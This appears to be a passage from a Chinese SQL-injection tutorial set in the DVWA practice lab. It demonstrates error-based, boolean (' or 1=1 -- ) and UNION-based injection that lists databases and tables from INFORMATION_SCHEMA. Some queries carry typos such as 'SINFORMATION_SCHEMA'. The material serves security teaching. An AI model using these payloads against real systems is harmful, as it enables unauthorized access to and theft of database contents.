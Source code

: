 ### 4、手动注入实战

#### 4.1、基于错误的注入

目的：试探某位置是否有注入点

 ![3-4](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903223213.png)

语句分析：

 ![3-5](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903223259.png)

输入单引号报错：

 ![3-6](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903223334.png)

```mysql
select first_name,last_name from dvwa users where user_id=''';
```

#### 4.2、基于Boolean的注入

注入语句

![3-7](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903223520.png)

```mysql
select first_name,last_name from dvwa users where user_id='' or 1=1 -- fafa ';
# -- 代表注释后面的内容
#' or 1=1 -- fafa
# 第一个 ' 是为了闭合前面的条件
# or 1=1 为真的条件
# -- 注释掉后面所有语句
# 一般可以查到本张表的所有数据
```

#### 4.3、基于UNION的注入

 ![3-8](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903224120.png)



 ![3-9](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903224217.png)



 ![3-10](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903224304.png)



```mysql
#查询所有库名
'union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- '
mysql> select first_name,last_name from dvwa.users where user_id='' union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- '

#查询所有库的表名
' union select table_name,1 from INFORMATION_SCHEMA.tables -- ''
mysql> select first_name,last_name from dvwa.users where user_id='' union select table_name,1 from INFORMATION_SCHEMA.tables -- ''

#查询所有表名及对应库名
' union select TABLE_SCHEMA, table_name from SINFORMATION_SCHEMA.tables -- ''
mysql> select first_name,last_name from dvwa.users where user_id='' union select TABLE_SCHEMA, table_name from SINFORMATION_SCHEMA.tables -- ''
```
